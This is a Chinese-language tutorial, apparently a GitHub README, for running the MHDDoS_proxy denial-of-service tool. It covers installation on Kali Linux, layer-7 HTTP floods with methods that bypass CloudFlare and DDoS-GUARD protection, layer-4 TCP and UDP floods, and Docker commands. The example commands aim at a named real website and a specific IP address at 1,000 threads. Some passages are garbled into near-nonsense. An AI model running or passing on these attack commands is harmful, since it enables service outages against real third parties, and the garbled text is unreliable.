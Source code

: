 ![5StepsDDoS-960x640](https://user-images.githubusercontent.com/101450205/159101728-e859a358-8e49-4360-be5a-839280ad74ef.jpg)

# MHDDoS_proxy
像往常一样，我们启动我们的虚拟 Kali Linux 并打开终端。首先，让我们将权限提升到 root 用户并删除旧的 MHDDoS：

sudo su #进入root用户，默认密码为“kali”
rm -rf MHDDoS #删除目录以及所有 MHDDoS 文件
接下来，我们使用以下命令从 github 克隆我们下载的脚本：
git clone https://github.com/porthole-ascend-cinnamon/mhddos_proxy.git

![image](https://user-images.githubusercontent.com/101450205/159101142-947d1a92-5c80-46ff-b22d-0386ccca6aa7.png)

接下来，我们需要下载 requirements.txt 文件，但首先要安装 python3-pip。您可以使用以下简单命令执行此操作：

apt update #构建所有可更新的包
apt install python3-pip #安装需要的包
![image](https://user-images.githubusercontent.com/101450205/159101166-807422fa-08ca-4fef-b625-05d4e640eb1b.png)

当被问到“是或否”时，我们通过输入“Y”来选择“是”

我们正在等待安装完成并继续“调整”MHDDoS

python3 -m pip install -r MHDDoS/requirements.txt

![image](https://user-images.githubusercontent.com/101450205/159101185-8072287d-5621-4977-b1fa-d3354f414b58.png)

MHDDoS，我们现在如何使用它？

攻击第7层（应用层）

例如，如果您知道使用 使用“保护”在 MHDOS 工具中具有一种攻击方法 方法方法中（在 CloudFlare 的 CFB 中使用，在 DDOS-GUARD 的 DGB 中使用），则以中。

VPN ）：

python3 runner.py <目标> --http-methods <方法> -t <威胁> --rpc <连接> -p <更新> --debug

在哪里：

目标格式为https://example.com的链接
方法(--http-methods) – MHDDoS
威胁(-t) - 对目标的恶意请求
连接(--rpc)
您的刷刷器(-p) - 秒此属性为单位单位的属性，之后与段代理服务器的连接将被刷刷代理代理连接服务具以具解除解除的刷刷连接器的连接连接器的属性默认值为 300 秒。
--debug - 样样查看测试日志。

举个例子，我们要攻击这个网站：http://www.baiketextile.cn/

python3 runner.py http://www.baiketextile.cn/ --http-methods dgb -t 1000 --rpc 100 -p 300 --debug

启动后，需要（大约1-2分钟），直到与等待服务器连接。

第4层攻击（传输层，p2p）

如果这是您必须的第一次受攻击的服务层服务层通过这种类型的攻击服务以成功地实现目标同的格式指定：

TCP 攻击（独立 VPN）：

以 tcp://IP:port 格式指定目标，并在 --http-methods

举个例子
python3 runner.py tcp://87.226.162.181:80 -t 1000 -p 300 --rpc 50 --http-methods TCP --debug

对于UDP（需要VPN）：

以 udp://IP:port 格式指定目标，并在 --http-methods

python3 runner.py udp://87.226.162.181:80 -t 1000 -p 300 --rpc 50 --http-methods UDP --debug

你也可以使用docker

docker，你用命令docker启动了MHDDOS_PROXY

第7层：

docker run -it --rm portholeascend/mhddos_proxy 你要攻击的网站 --http-methods dgb -t 1000 --rpc 100 -p 300 --debug

第4层（TCP）：

docker run -it --rm portholeascend/mhddos_proxy tcp://网站ip+端口 -t 1000 -p 300 --rpc 50 --http-methods TCP --debug

第4层（UDP）：

docker run -it --rm portholeascend/mhddos_proxy udp://网站+端口 -t 1000 -p 300 --rpc 50 --http-methods UDP --debug

下载docker

Windows：https://docs.docker.com/desktop/windows/install/
Mac：https://docs.docker.com/desktop/mac/install/
Ubuntu： https://docs.docker.com/engine/install/ubuntu/
Kali Linux： https://www.kali.org/docs/containers/installing-docker-on-kali/

您可以使用以下命令下载最新的 mhddos_proxy 映像：

docker pull portholeascend/mhddos_proxy:latest

本教程由喵哥整理，欢迎关注喵哥TG频道：https://t.me/miaoge123




